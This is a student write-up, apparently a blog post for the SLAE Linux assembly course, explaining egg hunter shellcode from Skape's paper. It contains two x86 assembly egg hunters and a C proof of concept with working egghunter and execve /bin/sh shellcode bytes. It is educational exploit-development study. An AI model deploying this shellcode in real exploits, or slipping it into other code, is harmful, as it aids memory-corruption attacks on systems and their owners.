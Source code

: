 # Assignment #3: Egg Hunter shellcode

- Study about the Egg Hunter shellcode

- Create a working demo of the Egghunter

- Should be configurable for different payloads


---------------------------------------------------


## What is an EggHunter?

It is a very efficient exploitation method when we have little space to store our shellcode which can be seen as a [Staged Shellcode](https://en.wikipedia.org/wiki/Shellcode#Staged).

Summing up, the first part of shellcode will be responsible for searching our 4-byte tag or "egg" in memory and the second part will be stored in some position of the memory, composed of the "egg" and the shellcode to execute (which can be the typical shellcode to spawn a shell, to open a reverse shell...).

Knowing this, the first part is the most important and the one which must be researched carefully. There are many "egghunters" on the internet, but in this case we will focus our study in the ones shown in [the Skape's paper from 2004](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

These egghunters have the three requirements needed: robustness, small size and they are fast. In all of them the author uses 8-byte "eggs", which means that the tag is used twice, so . The technique is based on the system calls, given they can "*validate process-relative memory addresses without leading to a segmentation fault or other runtime error in the program itself*", using them to check if the memory is readable and later if the tag has been reached.


## EggHunter study
The two egghunters studied use the same syscall: access.

![Screenshot](images/1.png)


### Egghunter 1

From the code in page 8 it is possible to extract the first egghunter, with a size of 39 bytes and an estimated speed in the paper of 8 seconds:

```assembly
global _start

section .text
_start:
  mov ebx, 0x50905090
  xor ecx, ecx
  mul ecx

jump1:
  or dx, 0xfff

jump2:
  inc edx; $edx = Size 4096 bytes
  pusha
  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80
  cmp al, 0xf2
  popa
  jz short jump1
  cmp dword [edx], ebx
  jnz short jump2
  cmp dword [edx+4], ebx
  jnz short jump2
  jmp edx
```

This code uses a "page size" of 4096 bytes (0x0fff + 0x0001 = 0x1000 or 4096) which is set in EDX register, EBX register contains the address to validate (current address of EDX plus 4) and EAX contains the value needed for the access system call (0x21). After the system call, EAX is compared with 0xf2 (which represents EFAULT), if the comparison is not met the address value is checked agaisnt the "egg" value twice, contained in EBX register (given the registers value is stored before the system call and restored before checking the address against the "egg" using *pusha* and *popa*).

Finally, it is tested with the "execve" shellcode as payload:

![Screenshot](images/2.png)




### Egghunter 2

From the code in page 11 it is possible to extract the second egghunter, with a size of 35 bytes (so it is smaller than the previous one) and an estimated speed in the paper of 7,5 seconds (so it is faster):

```assembly
global _start

section .text
_start: 

  xor edx, edx

test1:  

  or dx, 0xfff

test2:  
  inc edx
  lea ebx, [edx+0x4]
  push byte 0x21
  pop eax  
  int 0x80
  cmp al, 0xf2
  jz test1 
  mov eax, 0x50905090
  mov edi, edx
  scasd
  jnz test2
  scasd
  jnz test2
  jmp edi
```
In this second shellcode the great difference is the "egg" comparison, because a IA32 native instruction named *scasd* is used in this case, allowing a small comparison.

It is tested with the execve shellcode as payload:

![Screenshot](images/3.png)



### POC code

This is the code of *shellcode.c* for this exercise:


```cpp
#include <stdio.h>
#include <string.h>
#define egg "\x90\x50\x90\x50"

unsigned char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
unsigned char shellcode[] = egg egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {

  printf("Egghunter Length:  %d\n", strlen(egghunter));
  printf("Egghunter Egg + Shellcode:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())egghunter;

  ret();
}
```



## Useful links 

- Paper: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

- Python PoC con Kolibri: https://medium.com/@rafaveira3/exploit-development-kolibri-v2-0-http-server-egg-hunter-example-1-5e435aa84879



---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433
